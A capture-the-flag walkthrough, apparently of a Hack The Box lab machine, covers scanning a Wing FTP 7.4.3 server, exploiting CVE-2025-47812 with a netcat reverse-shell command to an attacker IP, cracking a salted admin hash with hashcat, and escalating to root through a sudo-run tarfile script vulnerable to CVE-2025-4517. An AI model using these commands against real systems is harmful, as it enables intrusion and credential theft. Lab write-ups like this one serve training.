








# Walkthrough 


## Information Gathering: 

Target ip attempts to resolve to wingdata.htb and can be viewed by updating the `/etc/hosts` file:




The `Client Portal` link attempts to resolve to `http://ftp.wingdata.htb` and can be viewed by adding it to the `/etc/hosts` file:





**Wing FTP Server - v7.4.3**
UI Framework is Bulma 


### Nmap Scans: 

All Port Scan: 
```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

`-sC -sV` scan:
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u7 (protocol 2.0)
| ssh-hostkey: 
|   256 a1:fa:95:8b:d7:56:03:85:e4:45:c9:c7:1e:ba:28:3b (ECDSA)
|_  256 9c:ba:21:1a:97:2f:3a:64:73:c1:4c:1d:ce:65:7a:2f (ED25519)
80/tcp open  http    Apache httpd 2.4.66
|_http-title: WingData Solutions
|_http-server-header: Apache/2.4.66 (Debian)
Service Info: Host: localhost; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```


### Directory Enumeration: 

#### wingdata.htb 

`gobuster dir -u http://wingdata.htb -w /usr/share/wordlists/dirb/common.txt`
```
.hta                 (Status: 403) [Size: 317]
.htaccess            (Status: 403) [Size: 317]
.htpasswd            (Status: 403) [Size: 317]
assets               (Status: 301) [Size: 353] [--> http://wingdata.htb/assets/]
index.html           (Status: 200) [Size: 12492]
server-status        (Status: 403) [Size: 317]
vendor               (Status: 301) [Size: 353] [--> http://wingdata.htb/vendor/]
Progress: 4613 / 4613 (100.00%)
```


#### ftp.wingdata.htb

`gobuster dir -u http://ftp.wingdata.htb -w /usr/share/wordlists/dirb/common.txt`
```
crossdomain.xml      (Status: 200) [Size: 111]
css                  (Status: 200) [Size: 0]
favicon.ico          (Status: 200) [Size: 19790]
help                 (Status: 500) [Size: 0]
icons                (Status: 500) [Size: 0]
images               (Status: 500) [Size: 0]
include              (Status: 500) [Size: 0]
language             (Status: 500) [Size: 0]
plugins              (Status: 500) [Size: 0]
Progress: 4613 / 4613 (100.00%)
```


`gobuster dir -u http://ftp.wingdata.htb -w /usr/share/wordlists/dirb/common.txt -x html`
```
bookmark.html        (Status: 200) [Size: 15]
copy.html            (Status: 200) [Size: 0]
crossdomain.xml      (Status: 200) [Size: 111]
css                  (Status: 200) [Size: 0]
dir.html             (Status: 200) [Size: 16]
editor.html          (Status: 200) [Size: 665]
empty.html           (Status: 200) [Size: 0]
extension.html       (Status: 200) [Size: 0]
favicon.ico          (Status: 200) [Size: 19790]
help                 (Status: 500) [Size: 0]
icons                (Status: 500) [Size: 0]
images               (Status: 500) [Size: 0]
include              (Status: 500) [Size: 0]
language             (Status: 500) [Size: 0]
language.html        (Status: 200) [Size: 0]
login.html           (Status: 200) [Size: 7987]
logout.html          (Status: 200) [Size: 259]
main.html            (Status: 200) [Size: 678]
plugins              (Status: 500) [Size: 0]
search.html          (Status: 200) [Size: 342]
uploaded.html        (Status: 200) [Size: 0]
uploader.html        (Status: 200) [Size: 110]
zip.html             (Status: 200) [Size: 15]
Progress: 9226 / 9226 (100.00%)
```


---
## Vulnerability Assessment: 

**Wing FTP Server versions 7.4.3 and prior are critically vulnerable to an unauthenticated Remote Code Execution (RCE) flaw tracked as [CVE-2025-47812](https://nvd.nist.gov/vuln/detail/CVE-2025-47812).** The vulnerability holds a **maximum CVSS severity rating of 10.0** and has been actively exploited in the wild. It allows remote attackers to fully compromise the server and execute arbitrary commands with administrative privileges (`root` on Linux or `SYSTEM` on Windows):

https://www.exploit-db.com/exploits/52347


---

## Exploitation: 

The exploit below was used against the target: 
https://www.exploit-db.com/exploits/52347





An attempt was made to read the first user flag with the exploit, but it did not return any output, likely due to a permissions error: 



The next step is to receive a shell. 

Bash and Python shells were unsuccessful, but Netcat worked successfully: 

```
python3 47812.py -u http://ftp.wingdata.htb/ -c "nc -e /bin/sh 10.10.15.186 1234"
```



A password hash was found in `/opt/wftpserver/Data/_ADMINISTRATOR/admins.xml`:

```
a8339f8e4465a9c47158394d8efe7cc45a5f361ab983844c8562bef2193bafba
```

And another hash for the user where the first flag is held:



---

#### Linpeas.sh Notes:

```
Linux version 6.1.0-42-amd64 (debian-kernel@lists.debian.org) (gcc-12 (Debian 12.2.0-14+deb12u1) 12.2.0, GNU ld (GNU Binutils for Debian) 2.40) #1 SMP PREEMPT_DYNAMIC Debian 6.1.159-1 (2025-12-30)
Distributor ID: Debian
Description:    Debian GNU/Linux 12 (bookworm)
Release:        12
Codename:       bookworm
Sudo version 1.9.13p3
```


**User config files:**
```
/opt/wftpserver/Data/1/users
/opt/wftpserver/Data/1/users/anonymous.xml
/opt/wftpserver/Data/1/users/john.xml
/opt/wftpserver/Data/1/users/maria.xml
/opt/wftpserver/Data/1/users/steve.xml
/opt/wftpserver/Data/1/users/wacky.xml
```


Password cracking on the hashes discovered proved difficult. This was found to be due to salting, which can be confimed by reading the `/opt/wftpserver/Data/1/settings.xml` file:

`1` turns on salting which uses the string `WingFTP`:

```
    <EnablePasswordSalting>1</EnablePasswordSalting>
    <SaltingString>WingFTP</SaltingString>
```

The hash for `wacky` needs the salt string appended to the end for cracking. It will look like this: 

```
32940defd3c3ef70a2dd44a5301ff984c4742f0baae76ff5b8783994f8a503ca:WingFTP
```

Then the command to crack the hash: 

```
hashcat -m 1410 hash.txt /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt
```

Hashcat is successful in cracking the password:

```
32940defd3c3ef70a2dd44a5301ff984c4742f0baae76ff5b8783994f8a503ca:WingFTP:!#7Blushing^*Bride5
```

The password for `wacky` is confirmed as `!#7Blushing^*Bride5` after successfully logging in via ssh and discovering the first flag:




## Privilege Escalation: 


```
wacky@wingdata:~$ sudo -l
Matching Defaults entries for wacky on wingdata:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User wacky may run the following commands on wingdata:
    (root) NOPASSWD: /usr/local/bin/python3 /opt/backup_clients/restore_backup_clients.py *
```

The script wacky can call with sudo privileges:

```
#!/usr/bin/env python3
import tarfile
import os
import sys
import re
import argparse

BACKUP_BASE_DIR = "/opt/backup_clients/backups"
STAGING_BASE = "/opt/backup_clients/restored_backups"

def validate_backup_name(filename):
    if not re.fullmatch(r"^backup_\d+\.tar$", filename):
        return False
    client_id = filename.split('_')[1].rstrip('.tar')
    return client_id.isdigit() and client_id != "0"

def validate_restore_tag(tag):
    return bool(re.fullmatch(r"^[a-zA-Z0-9_]{1,24}$", tag))

def main():
    parser = argparse.ArgumentParser(
        description="Restore client configuration from a validated backup tarball.",
        epilog="Example: sudo %(prog)s -b backup_1001.tar -r restore_john"
    )
    parser.add_argument(
        "-b", "--backup",
        required=True,
        help="Backup filename (must be in /home/wacky/backup_clients/ and match backup_<client_id>.tar, "
             "where <client_id> is a positive integer, e.g., backup_1001.tar)"
    )
    parser.add_argument(
        "-r", "--restore-dir",
        required=True,
        help="Staging directory name for the restore operation. "
             "Must follow the format: restore_<client_user> (e.g., restore_john). "
             "Only alphanumeric characters and underscores are allowed in the <client_user> part (1–24 characters)."
    )

    args = parser.parse_args()

    if not validate_backup_name(args.backup):
        print("[!] Invalid backup name. Expected format: backup_<client_id>.tar (e.g., backup_1001.tar)", file=sys.stderr)
        sys.exit(1)

    backup_path = os.path.join(BACKUP_BASE_DIR, args.backup)
    if not os.path.isfile(backup_path):
        print(f"[!] Backup file not found: {backup_path}", file=sys.stderr)
        sys.exit(1)

    if not args.restore_dir.startswith("restore_"):
        print("[!] --restore-dir must start with 'restore_'", file=sys.stderr)
        sys.exit(1)

    tag = args.restore_dir[8:]
    if not tag:
        print("[!] --restore-dir must include a non-empty tag after 'restore_'", file=sys.stderr)
        sys.exit(1)

    if not validate_restore_tag(tag):
        print("[!] Restore tag must be 1–24 characters long and contain only letters, digits, or underscores", file=sys.stderr)
        sys.exit(1)

    staging_dir = os.path.join(STAGING_BASE, args.restore_dir)
    print(f"[+] Backup: {args.backup}")
    print(f"[+] Staging directory: {staging_dir}")

    os.makedirs(staging_dir, exist_ok=True)

    try:
        with tarfile.open(backup_path, "r") as tar:
            tar.extractall(path=staging_dir, filter="data")
        print(f"[+] Extraction completed in {staging_dir}")
    except (tarfile.TarError, OSError, Exception) as e:
        print(f"[!] Error during extraction: {e}", file=sys.stderr)
        sys.exit(2)

if __name__ == "__main__":
    main()
```

Research shows that the code is vulnerable to a critical CVE:
#### CVE-2025-4517 

PoC & Description:
https://github.com/AzureADTrent/CVE-2025-4517-POC

"This exploit leverages **CVE-2025-4517**, a critical vulnerability in Python's `tarfile` module that allows arbitrary file write through a combination of symlink path traversal and hardlink manipulation. This bypasses the `filter="data"` protection introduced in Python 3.12."

The exploit is downloaded from the link above and placed onto the target machine. In this case, it was downloaded onto the attacking machine first, served via python server and utilising `wget` on the target machine to retrieve the exploit into the `/tmp` directory. It is then just a case of running the exploit and letting it do the rest. If everything works correctly, a root shell is obtained and the last flag can be retrieved:





# Summary: 

This penetration test began with reconnaissance and enumeration of the target, identifying SSH (OpenSSH 9.2p1) and an Apache web server hosting the WingData Solutions website and a separate Wing FTP Server instance (v7.4.3). Directory enumeration revealed several accessible resources on both web applications, while vulnerability research identified that Wing FTP Server v7.4.3 was affected by the critical unauthenticated remote code execution vulnerability, CVE-2025-47812. Using a publicly available exploit, remote command execution was achieved and a reverse shell was established on the target. Post-exploitation activities uncovered Wing FTP configuration files containing password hashes, which were determined to use password salting with the string WingFTP. After adapting the hash format accordingly, the password for the wacky user was successfully cracked with Hashcat, allowing SSH access and retrieval of the initial user flag.

Privilege escalation focused on the wacky user's sudo permissions, which allowed execution of a Python backup restoration script as root without authentication. Analysis of the script revealed it relied on Python's tarfile module with filter="data", making it vulnerable to CVE-2025-4517, an arbitrary file write vulnerability that bypasses the intended extraction protections. A proof-of-concept exploit was transferred to the target and executed, resulting in successful privilege escalation to a root shell and completion of the engagement. The assessment demonstrated a complete compromise of the host through the chaining of a critical unauthenticated remote code execution vulnerability, weakly protected credential storage, and a vulnerable privileged backup restoration mechanism.